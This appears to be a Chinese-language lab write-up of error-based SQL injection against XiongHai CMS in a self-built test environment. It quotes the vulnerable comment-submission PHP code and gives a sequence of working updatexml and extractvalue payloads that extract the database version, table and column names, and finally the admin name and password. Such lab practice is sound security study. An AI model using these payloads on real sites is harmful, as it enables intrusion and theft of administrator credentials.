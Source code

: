 ```yaml
---
{"date":"2024-08-02","tags":["安全/靶场"],"url":null,"dg-publish":true,"permalink":"/随记/自建环境_SQL报错盲注测试_{2024-08-01}/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
# 环境介绍

利用的是熊海CMS


在 `files/submit.php` 提交评论的文件中，有这样的代码
```php
$query = "INSERT INTO interaction (  
type,  
xs,  
cid,  
name,  
mail,  
url,  
touxiang,  
shebei,  
ip,  
content,  
tz,  
date  
) VALUES (  
'$type',  
'$xs',  
'$cid',  
'$name',  
'$mail',  
'$url',  
'$touxiang',  
'$shebei',  
'$ip',  
'$content',  
'$tz',  
now()  
)";  
@mysql_query($query) or die('新增错误：'.mysql_error());
```

也就是接收评论的信息然后插入数据库，最重要的是后面有报错返回

# 进行注入

接下来尝试将昵称改为payload

```sql
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```
注意要闭合单引号


![Pasted image 20240801105510.png](/img/user/picture/Pasted%20image%2020240801105510.png)

发现确实可以注入


## 获取数据库名

```sql
' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and '
```
![Pasted image 20240801105955.png](/img/user/picture/Pasted%20image%2020240801105955.png)

## 获取表名

构建payload
```sql
' and updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) and '

```
`LIMIT 0,1` 用于逐步获取表名。你可以从 `LIMIT 0,1` 开始，逐步增加偏移量来获取更多的表名，例如 `LIMIT 1,1`、`LIMIT 2,1` 等。
![Pasted image 20240801114453.png](/img/user/picture/Pasted%20image%2020240801114453.png)

## 获取列名

以表`manang`为例

```sql
' and updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='manage' LIMIT 0,1),0x7e),1) and '

```

![Pasted image 20240801115106.png](/img/user/picture/Pasted%20image%2020240801115106.png)

得到列名
id,user,name,password,img,mail



## 表中信息

```sql
' and updatexml(1,concat(0x7e,(SELECT name FROM seacms.manage WHERE id='1' LIMIT 0,1),0x7e),1) and '
```

![Pasted image 20240801115533.png](/img/user/picture/Pasted%20image%2020240801115533.png)

发现在显示密码的时候显示不全
```sql
' and extractvalue(1, concat(0x7e, (SELECT password FROM seacms.manage WHERE id='1' LIMIT 0,1), 0x7e)) and '
```